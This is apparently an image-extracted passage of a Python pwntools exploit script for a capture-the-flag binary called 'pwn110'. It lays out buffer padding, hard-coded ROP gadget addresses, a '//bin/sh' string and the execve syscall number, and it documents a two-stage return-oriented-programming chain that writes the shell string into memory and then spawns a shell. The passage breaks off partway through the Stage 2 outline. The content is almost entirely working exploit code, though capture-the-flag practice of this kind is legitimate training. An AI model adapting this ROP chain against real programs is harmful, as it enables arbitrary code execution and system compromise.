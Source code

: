 ```python
#!/usr/bin/env python3

from pwn import context, ELF, process, gdb, remote, flat

exe = './pwn110'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

gdbinit='''
init-pwndbg
break* main+73
continue
'''

## Crafting the payload ##

padding = 'A'*32 # fill the buffer

# .data
data=0x4c00e0

pop_rbp_ret=0x401da1

pop_rax_ret=0x4497d7

_bin_sh = b"//bin/sh"

mov_rbp_rax_ret = 0x46e8bd 

pop_rdi_rbp_ret = 0x4035a3

mov_rsi_rbp_syscall = 0x47c34e

execve_sysno = 59

pop_rdi_ret = 0x40191a

pop_rsi_ret = 0x48df60

pop_rdx_ret = 0x40181f

syscall_ret = 0x4173d4

dummy='B'*8

"""
### Stage 1: Overwrite the memory

- padding
- .data
- pop rbp; ret;
- pop rax; ret;
- "//bin/sh"
- mov qword ptr [rbp], rax; mov rax, r12; pop rbp; pop r12; pop r13; ret;
- dummy
- dummy
- dummy

### Stage 2: syscall

- pop rax; ret;
- 59
- pop rdi; ret;
```